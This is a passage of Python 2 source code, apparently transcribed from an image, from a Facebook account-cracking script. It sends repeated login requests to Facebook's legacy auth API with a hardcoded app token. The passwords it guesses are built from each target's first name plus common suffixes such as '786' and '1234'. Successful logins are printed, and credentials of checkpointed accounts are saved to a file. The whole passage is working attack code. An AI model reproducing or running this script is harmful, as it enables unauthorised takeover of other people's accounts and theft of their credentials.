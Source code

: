 									data = urllib2.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										print '\x1b[1;92m[Successful]\x1b[0m ' + user + ' | ' + pass4
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											print '[Checkpoint] ' + user + ' | ' + pass4
											cps = open("save/checkpoint.txt", "a")
											cps.write(user+"|"+pass4+"\n")
											cps.close()
											cpb.append(user+pass4)
										else:
											pass5 = b['first_name'] + '786'
											data = urllib2.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												print '\x1b[1;92m[Successful]\x1b[0m ' + user + ' | ' + pass5
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '[Checkpoint] ' + user + ' | ' + pass5
													cps = open("save/checkpoint.txt", "a")
													cps.write(user+"|"+pass5+"\n")
													cps.close()
													cpb.append(user+pass5)
												else:
													pass6 = b['first_name'] + '1234'
													data = urllib2.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														print '\x1b[1;92m[Successful]\x1b[0m ' + user + ' | ' + pass6
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															print '[Checkpoint] ' + user + ' | ' + pass6
															cps = open("save/checkpoint.txt", "a")
															cps.write(user+"|"+pass6+"\n")
															cps.close()
															cpb.append(user+pass6)
														else:
															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
															b = json.loads(a.text)
															pass7 = b['first_name'] + '1122'
															data = urllib2.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																print '\x1b[1;92m[Successful]\x1b[0m ' + user + ' | ' + pass7
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	print '[Checkpoint] ' + user + ' | ' + pass7
																	cps = open("save/checkpoint.txt", "a")
																	cps.write(user+"|"+pass7+"\n")
																	cps.close()
																	cpb.append(user+pass7)